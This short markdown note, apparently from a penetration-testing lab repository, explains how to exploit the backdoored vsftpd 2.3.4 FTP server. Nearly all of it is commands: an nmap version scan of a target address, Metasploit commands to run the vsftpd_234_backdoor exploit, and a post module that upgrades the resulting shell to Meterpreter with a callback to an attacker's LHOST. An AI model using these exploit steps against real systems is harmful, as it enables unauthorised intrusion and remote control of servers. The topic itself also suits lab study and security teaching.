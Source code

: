# Exploiting FTP Port

- FTP stands for File transfer protocol which are used to enable file sharing between clients and the server.
- There are different versions of FTP server like `vsftpd`, `Proftpd` etc..
##### VULNERABILTY:
But `vsftpd 2.3.4` version is vulnerable to a command execution vulnerability.

#### INITIAL ENUMERATION:

```
db_nmap -sV 192.247.13.3
```

#### EXPLOITATION:

```
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.247.13.3
exploit
```

#### SPAWNING A METERPRETER SHELL

1. Background the current session.
2. Then load the following module

```
use post/multi/manage/shell_to_meterpreter
set SESSION 1
set LHOST 10.10.10.10
run
```
